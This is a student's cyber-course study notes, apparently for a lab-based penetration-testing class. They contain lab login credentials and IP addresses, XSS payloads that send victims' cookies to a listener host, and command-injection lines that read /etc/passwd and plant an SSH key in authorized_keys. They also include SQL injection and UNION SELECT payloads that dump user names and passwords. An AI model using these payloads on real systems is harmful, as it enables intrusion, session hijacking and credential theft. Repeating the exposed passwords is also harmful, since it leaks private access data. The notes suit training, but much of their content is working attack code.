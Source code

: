 ### LOGIN INFO ###
Please log into Lins-ops
find IPs on vta.cybbh.space

class info: 10.50.46.45/classinfo.html
Keep this output in your notes, password for pivot/-jump box and CTFd, 10.50 is your Jump box for challenges

OLD CTFd: 10.50.20.250:8000

New CTFd: 10.50.20.30:8000


ssh into my workstation -> ssh -X student@10.50.39.223
password: password 

JUMP_BOX!!!
username: MAKI-502-B
password: d07PevVUniUxBNR

Record deleted successfully
Stack Number  |	Username	| Password	        |    lin.internet
-------------------------------------------------------------------
16	          |  MAKI-502-B	|  d07PevVUniUxBNR  |	    10.50.23.132

to ssh into the jumpbox -> ssh student@10.50.23.132 with the password as d07PevVUniUxBNR

linux-ops ip address: 10.50.24.96
    username: student
    password: password
jump-box: 10.50.23.132
    username: student
    password: d07PevVUniUxBNR

winops: 10.50.27.161


OLD-INFO----- 
Stack Number: 16
lin.internet: 10.50.49.22
linux-ops ip address: 10.50.39.223

VTA_creds: https://vta.cybbh.space/horizon/project/
Username: mahlon.k.kirwa80
password: regular linux password
Domain: ipa

Jump box:
cctc.cybb

Link slides and what not - https://sec.cybbh.io/public/security/latest/index.html

Instances - https://vta.cybbh.space/horizon/project/instances/

## SECURITY MODULES ##

LESSONS:
1. Penetration testing
2. Reconnaissance
3. Exploit Research
4. Web Exploitation - Day 1
5. Web Exploitation - Day 2
6. Reverse Engineering
7. Exploit Development Testing
8. Post Exploitation
9. Windows Exploitation
10. Linux Exploitation

### PENETRATION TESTING ###

Phases:
1. Phase 1 - Mission definition
2. Phase 2 - Recon
3. Phase 3 - Footprinting
4. Phase 4 - Exploitation and Initial Access
5. Phase 5 - Post Exploitation
6. Phase 6 - Document Mission

for i in {1..254} ;do (ping -c 1 192.168.1.$i | grep "bytes from" &) ;done # Does the first 1000 scans. For the ping sweep... 

Always run the regular scans like above before you try banner grabbing (a technique used to gain information about a computer on a network and the services running on its open ports.)

storage nmap scripts -> ls /usr/share/nmap/scripts/
Popular scripts: ftp-anon.nse, http-enum.nse, smb-os-discovery.nse

How to get information about a certain script -> proxychains nmap [target_ip_address]-Pn -p [target_port] --script-help [target_script]
                                                             nmap ip 192.168.28.97-100, 100,105,111,120 -pm


## Web Exploits CSS ##

proxychains nmap 10.50.45.162 -Pn --script http-enum -p 80

nc -kvnl 8000

n- translates dns

 <script>document.location="http://10.50.20.97/Cookie_Stealer1.php?username=" + document.cookie;</script>
http://10.50.20 ------ needs to be your ip address...


ping 8.8.8.8 ;cat /etc/passwd -> Lets you run and see if 

;cat ~/.ssh/id_rsa.pub

;mkdir /var/www/.ssh

;whoami

;echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC+ShHz+32iRy5PXvEQSEnn3yOK9azmn6tK+Ld8rpJkGg1Oyuq8hpq7YCmbS246hKLGytcqS9QKaC5xYojc/XjkdLzyAh8B1Ji2EPBMkVf2kpkXpS7uoYM0EvMm5j7Q2SakFdeDdLKgAUaY73JBkZmwSxi5GsJz6ZhE/x+92pFNDzcyXs4gyri+ME2ctmxVeSViOBtRONhjSrdTHePKekSPE4eKO4fEKrVFC8/QT7liTjNuCScNnw72TBys+4ZyrcSlj3yyEgs5Rrw3TpgkS+VS/tSpFf2lljuCmU0f/IXLW73q5/JdeiMEQqSFuV2SD2D9P+Eq92ES0HugQUz30yGR" >> /var/www/.ssh/authorized_keys

ssh www-data@10.50.45.162

malicious file upload.... 


10.50.45.62




http://10.100.28.40/Contract_bids.html
http://10.100.28.40/net_test/industry_check.php
http://10.100.28.40/


 <script>document.location="http://10.50.49.22:9696/Cookie_Stealer1.php?username=" + document.cookie;</script>
http://10.50.20 ------ needs to be your ip address...


<script>document.location="http://10.50.39.223:9696/Cookie_Stealer1.php?username=" + document.cookie;</script>
192.168.65.20

## SQL ##

MariaDB > select carid, name, cost from car;
MariaDB > select carid, name, cost from session.car where carid=4; 
MariaDB > select database(); # shows you where you are with your current database. 
MariaDB > select table_schema, table_name, column_name from information_schema.columns;

table_schema: Refers to the name of the schema (often used interchangeably with "database" in some DBMS) to which the table belongs.
The information_schema.columns table is a meta-table that contains information about all columns in all tables in the database system.

MariaDB > select table_name from information_schema.columns where table_schema=session;
MariaDB > select @@version;
MariaDB > select load_file("/etc/passwd);
MariaDB > select carid, name, cost from session.car union select name, pass, id from session.user;

SELECT * FROM movies;

SELECT * FROM movies where year<2000 or year>2010; # Finding movies not released in the years between 2000 and 2010.
SELECT * FROM movies where id>=1 and id<=5; # Finding the first 5 pixar movies. 
SELECT * FROM movies WHERE Title LIKE '%toy story%'; # Find all the Toy Story movies
SELECT * FROM movies WHERE Director='John Lasseter'; # Find all movies directed by John Lasseter
SELECT * FROM movies WHERE Title like 'WALL-%'; # Find all the WALL-* movies
SELECT DISTINCT Director FROM movies ORDER BY Director ASC; # List all directors of Pixar movies (alphabetically), without duplicates 
SELECT * FROM movies ORDER BY year DESC limit 4; # List the last four Pixar movies released (ordered from most recent to least) 
SELECT * FROM movies ORDER BY title ASC limit 5; # List the first five Pixar movies sorted alphabetically


WHERE Price BETWEEN 10 AND 20;

USE session;
SELECT id FROM user WHERE name='tom' OR 1=1;

steps sql injection
1. in both the password and username field, enter: tom' or 1='1
2. Inspect html and change form from post to get 
3. login and see the information

You will get all selects except for one challenge. 

step 1 -> http://10.50.46.45/uniondemo.php?Selection=2 or% 1=1 -> Keep increasing the value on the selection until an output is derived
step 2 -> http://10.50.46.45/uniondemo.php?Selection=2 union select 1,2,3 union select, find out if there values are ordered

We now know they're not inorder and that 2 is vulnerable let's look at the table schema 
step 3 -> http://10.50.46.45/uniondemo.php?Selection=2 UNION SELECT table_schema,table_name,column_name FROM information_schema.columns

union demo - http://10.50.46.45/Union.html

ford' or 1=1; #   ---> Try this gives this select name, type, cost, color, year from car where name='ford\' or 1=1; #' 
select name, type, cost, color, year from car where name='audi\' or 1=\'1'

0. ford' or 1='1; this didn't work why???
1. ford' or 1=1; # after this we try audi next
2. Audi' or 1=1; #' ----> gives this select name, type, cost, color, year from car where name='Audi' or 1=1; # ' -----> SUCCESS!!!
3. Now we need union select 
4. Audi' union select 1,2,3,4; # -----> doesn't work.. 
5. Audi' union select 1,2,3,4,5; # ----> works.. looks like I added 
6. Audi' UNION SELECT 1,2,table_schema,table_name,column_name FROM information_schema.columns; #      ----> GOLDEN STATEMENT ALLOWS US TO KNOW WHAT TO WRITE FOR THAT SITUATION. Helps us to write a valid query for content
7. Audi' Union select id,null,name,pass,null from session.user; #
query -----> select name, type, cost, color, year from car where name='Audi' Union select id,2,name,pass,null from session.user; #'


## REVERSE ENGINEERING ##
